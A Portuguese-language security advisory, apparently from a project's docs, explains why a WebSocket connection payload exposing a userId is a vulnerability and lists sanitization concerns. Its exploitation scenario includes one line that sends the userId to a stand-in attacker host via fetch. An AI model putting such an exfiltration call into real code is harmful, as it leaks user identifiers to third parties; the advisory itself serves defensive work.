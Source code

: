 # 🔒 Correção de Segurança - Payload de Conexão WebSocket

## ⚠️ Vulnerabilidade Identificada

### Payload Original (Vulnerável)

```json
{
  "type": "connection",
  "status": "connected",
  "userId": "68e2803a8546054e3ae6cf74",  ← ⚠️ EXPOSTO DESNECESSARIAMENTE
  "timestamp": "2025-10-25T21:35:43.404Z"
}
```

## 🚨 Problemas de Segurança

### 1. Exposição Desnecessária de userId (🟡 Médio)

**Por que é um problema?**
- O `userId` já está disponível no **JWT token** que o cliente usou para conectar
- Enviar novamente é **redundante** e aumenta a superfície de ataque
- Se houver **XSS** na aplicação, o userId fica exposto em logs do cliente
- Pode ser **capturado** em ferramentas de debug do navegador
- **Inconsistente** com princípio de minimização de dados

**Cenário de Exploração:**
```javascript
// Cliente malicioso pode capturar userId de logs
console.log('Conectado:', payload); // userId visível
localStorage.setItem('userId', payload.userId); // Armazenamento inseguro

// Se houver XSS, atacante pode roubar:
fetch('https://attacker.com/steal?userId=' + payload.userId);
```

### 2. Falta de Sanitização (🟡 Médio)

**Por que é um problema?**
- Payload não passa pela camada de sanitização implementada
- **Inconsistente** com resto da aplicação
- Quebra o padrão de "defense in depth"
- Se futuras alterações adicionarem campos sensíveis, podem vazar

### 3. Encorajamento de Uso Incorreto (🟢 Baixo)

**Por que é um problema?**
- Enviar o userId sugere que o cliente **deve** armazená-lo
- Cliente pode criar dependência de dado que **não deveria confiar**
- Pode levar a lógica client-side baseada em dados manipuláveis
